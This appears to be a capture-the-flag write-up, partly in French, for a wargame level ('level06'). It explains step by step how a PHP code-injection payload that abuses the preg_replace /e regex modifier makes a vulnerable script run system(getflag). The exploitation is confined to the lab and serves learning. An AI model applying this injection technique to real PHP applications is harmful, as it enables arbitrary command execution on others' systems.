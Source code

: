 # useful links
* https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
* https://regex101.com/r/iU2cE2/1
* https://www-ppti.ufr-info-p6.jussieu.fr/doc-online/PHP/php7/php-chunked-xhtml/reference.pcre.pattern.modifiers.html#reference.pcre.pattern.modifiers.eval
* https://www.php.net/manual/fr/language.operators.execution.php

# cmd
* ``ls``
    * 2 files : a binary level06 and level06.php
* ``./level06``
    * ``PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4``
* try 1 :
    * ``./level06 level06.php``
        * see try_1.txt
* try 2 :
    * dogbolt to decompile level06
        * see level06.c
* try 3 :
    * ``cat level06.php``
        * see level06.php
    * on remarque que dans try_1.txt, il y a plusieurs fois le contenu de level06.php
        * see analyse_try_1.txt -> bouh correspond aux endroit ou on trouve le contenu de level06.php
* try 4 : in level06.php
    * l10 : cette ligne est la plus interessante, il faudrait trouver une regex reverse qui une fois passee dans cette commande lance getflag
* try 5 :
    * ``echo "[x {\${system(getflag)}}]">/tmp/bouh``
        * We need to execute ``systeme(getflag)``
        * So we use ``${}`` to indicate to PHP that there is a variable -> ``${system(getflag)}``
        * we add ``\`` in order to avoid ``-bash: [x {${system(getflag)}}]: bad substitution`` -> ``\${system(getflag)}``
        * we add another ``{}`` to tell PHP that there is something to calculate inside -> ``{\${system(getflag)}}``
        * we add ``[x ]`` to make the l10's regex with e modifier to work
    * ``./level06 /tmp/bouh``